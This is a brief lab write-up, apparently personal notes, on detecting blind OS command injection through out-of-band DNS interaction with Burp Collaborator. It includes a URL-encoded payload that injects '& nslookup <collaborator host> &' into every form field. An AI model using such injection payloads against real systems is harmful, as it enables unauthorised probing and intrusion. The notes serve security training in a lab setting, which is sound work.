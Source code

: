 ```yaml
---
tags: ["OAST", "nslookup"]
---
```


--> In this lab the server is working asynchronously that's why output redirecion or blind command injection will not work but we can make sure the server is vulnerable with the `nslookup` in linux which is command for DNS lookup.

so i tried this payload in every field:

```bash
+%26+nslookup+1kmo91qqog19ve8a2emjskppjgp6dv.burpcollaborator.net+%26
#Which gets decoded into
 & nslookup myCollaboratorServer.burpollaborator.net &
```

--> TO get your burp collaborator server goto `burp(on left top)->collaborator client->click copy to clipboard`

And to get the request instantly click `poll now`

and i got the request and solved the lab!

![](Attachments/Pastedimage20220120123719.png)
